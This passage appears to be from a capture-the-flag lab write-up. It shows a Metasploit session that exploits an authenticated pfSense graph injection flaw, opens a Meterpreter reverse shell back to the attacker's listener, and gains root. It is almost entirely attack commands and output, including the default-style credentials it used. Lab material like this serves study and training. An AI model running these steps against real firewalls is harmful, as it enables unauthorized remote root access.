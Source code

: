 ```
   0  exploit/unix/http/pfsense_clickjacking          2017-11-21       normal     No     Clickjacking Vulnerability In CSRF Error Page pfSense
   1  exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE
   2  exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE
```
We see the same Metasploit module `exploit/unix/http/pfsense_graph_injection_exec`, so let's use it.
```
msf6 > use exploit/unix/http/pfsense_graph_injection_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show options

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/http/pfsense_graph_injection_exec) > set rhost 10.129.85.110
rhost => 10.129.85.110
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set username rohit
username => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(unix/http/pfsense_graph_injection_exec) > exploit

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (39282 bytes) to 10.129.85.110
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 10.129.85.110:48852) at 2021-05-12 06:12:39 +0800
[+] Deleted fBpI

meterpreter > getuid
Server username: root (0)
```